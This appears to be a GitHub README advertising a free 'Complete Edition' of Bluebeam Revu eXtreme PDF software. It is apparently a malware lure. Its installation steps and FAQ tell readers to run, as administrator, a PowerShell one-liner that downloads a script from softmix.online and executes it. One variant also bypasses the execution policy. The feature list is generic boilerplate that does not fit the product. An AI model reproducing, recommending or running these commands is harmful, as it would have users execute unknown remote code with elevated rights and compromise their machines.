

<div align="center">


<br>


# Bluebeam Revu eXtreme Professional Complete Edition
**PDF markup · Takeoff tools · Studio sessions**
<br>
**PDF markup · Takeoff tools · Studio sessions**
<br>
Professional  ◆  Enterprise  ◆  Complete  ◆  Windows



**Bluebeam Revu eXtreme — PDF markups, quantity takeoffs, Studio collaboration and batch document tools all enabled.**

</div>
---

> Mark up plans and measure takeoffs digitally — Studio sessions, custom tool sets and batch processing all enabled.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

📐 **Pro modeling** — Advanced CAD and engineering tools enabled.
🔧 **Simulation ready** — Analysis and drafting modules included.
📦 **Local workstation** — Full desktop install for Windows.
🖥️ **64-bit optimized** — Built for engineering PCs.
📋 **Complete toolkit** — Templates and libraries supported.
⚙️ **Pro workflow** — Suitable for daily technical work.
⚡ **One-command setup** — PowerShell automates installation.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 4 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 4 gb free space.
</details>


TAGS
bluebeam-revu-extreme, bluebeam, bluebeam-revu, bluebeam-extreme, bluebeam-pro, bluebeam-app, pdf-markup, windows, pro, desktop, software, studio, tools
